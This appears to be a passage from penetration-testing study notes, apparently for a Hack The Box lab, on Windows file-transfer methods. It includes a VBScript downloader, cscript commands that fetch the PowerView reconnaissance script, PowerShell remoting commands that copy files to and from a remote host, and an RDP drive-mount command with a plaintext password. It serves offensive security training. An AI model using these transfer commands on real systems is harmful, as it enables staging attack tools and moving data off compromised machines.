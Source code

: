 ### Download a File Using JavaScript and cscript.exe
- `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

## VBScript
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

### Download a File Using VBScript and cscript.exe
- `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

# Miscellaneous File Transfer Methods
## From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.
- `Test-NetConnection -ComputerName DATABASE01 -Port 5985`

## Create a PowerShell Remoting Session to DATABASE01
- `$Session = New-PSSession -ComputerName DATABASE01`

## Copy samplefile.txt from our Localhost to the DATABASE01 Session
- `Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\`

## Copy DATABASE.txt from DATABASE01 Session to our Localhost
- `Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session`

## RDP
### Mounting a Linux Folder Using rdesktop
- `rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'`
